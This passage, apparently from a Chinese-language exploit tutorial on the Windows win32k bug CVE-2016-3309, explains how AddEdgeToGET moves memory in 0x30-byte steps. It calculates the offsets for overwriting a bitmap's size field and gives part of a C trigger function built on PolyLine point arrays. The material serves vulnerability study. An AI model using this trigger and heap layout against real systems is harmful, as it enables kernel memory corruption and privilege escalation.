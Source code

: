   
这段代码可以获取以下的几个信息：  
  
  
如果当前点的y值小于上一个点的y值，内存偏移0x28处的内存会被赋值为0xFFFFFFFF，否则赋值为1；  
  
  
如果当前点和上一个点的y值相等，则函数会将edge直接返回，也就是不进行内存偏移，直接返回原来的内存地址；  
  
  
如果第2步没返回，就会返回edge + 0x30处的内存，也就是取当前地址偏移0x30处的内存地址，下一次进入到该函数中就会操作这块新的内存，这里也可以看出，EDGE结构体的大小为0x30。  
  
  
在本文的内存布局中，要修改BitMap的中的sizlBitmap需要写入申请的0x50字节，页起始处0xBC0字节的剪切板对象，sizlBitmap成员相对于BitMap对象页的偏移0x10 + 0x18 + 0x20 = 0x48，共0x50 + 0xBC0 + 0x48 = 0xC58，sizelBitmap占8字节，所以一共需要操作0xC60字节，AddEdgeToGET函数每次会移动0x30字节的内存，所以一共要添加0xC60 / 0x30 = 0x42次。  
  
  
起始点和结束点会被当作特例添加进去，因此只需要将所有点设置一样，将其中一个点设为不同，在调用PolyLine函数前0x20次增加cCurves的时候，该点在作为上一个点和当前点的时候都会进行内存偏移，这样就会刚好写入0x20 * 2 + 2 = 0x42次，此时触发漏洞的代码如下：  
```
BOOL Trigger_CVE_2016_3309()
{
    CONST DWORD dwCount = 0x3FE01;
    BOOL bRet = TRUE;
    static POINT points[dwCount];
    HDC hdc = NULL, hMemDC = NULL;
    HBITMAP bitmap = NULL;
    HGDIOBJ bitobj = NULL;
    DWORD i = 0;

        // 将y值设置为相同
    for (i = 0; i < dwCount; i++)
    {
        points[i].x = 0x5A1F;
        points[i].y = 0x5A1F;
    }

        // 将第3个点y值设为20
    points[2].y = 20;
    points[dwCount - 1].x = 0x4A1F;
    points[dwCount - 1].y = 0x6A1F;

    hdc = GetDC(NULL);
    if (!hdc)
    {
        ShowError("GetDC", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    hMemDC = CreateCompatibleDC(hdc);
    if (!hMemDC)
    {
        ShowError("CreateCompatibleDC", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    bitmap = CreateBitmap(0x5a, 0x1f, 1, 32, NULL);
    if (!bitmap)
    {
        ShowError("CreateBitmap", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    bitobj = (HGDIOBJ)SelectObject(hMemDC, bitmap);
    if (!bitobj)
```